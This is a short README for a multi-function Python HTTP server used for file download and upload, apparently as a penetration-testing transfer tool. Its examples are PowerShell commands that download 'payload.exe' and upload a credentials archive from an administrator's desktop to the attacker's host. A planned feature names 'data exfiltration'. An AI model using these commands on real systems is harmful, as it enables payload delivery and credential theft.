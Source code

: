 # Multi-functions python HTTP Server
A HTTP Server for downloading or uploading file.  

![alt text](./UI.PNG)

Usage:  
Start HTTP Server  
```bash
python3 HTTP_Server.py
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

sudo python3 HTTP_Server.py 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Option1:  
Download or upload file using web browser  
Visit http://[host.ip]:8080

Option2:  
Download file  
`Invoke-WebRequest -Uri http://[host.ip]:8080/payload.exe -OutFile payload.exe`  
Upload file  
`Invoke-Restmethod -uri http://[host.ip]:8080/credentials.zip -Method Put -Infile C:\\users\\administrator\\desktop\\credentials`  

Pending issue:
- Change to PUT method instead of using POST to upload file using UI
- Modify the POST handler to accept normal POST data which can be used for data exfiltration. Currently not supported.
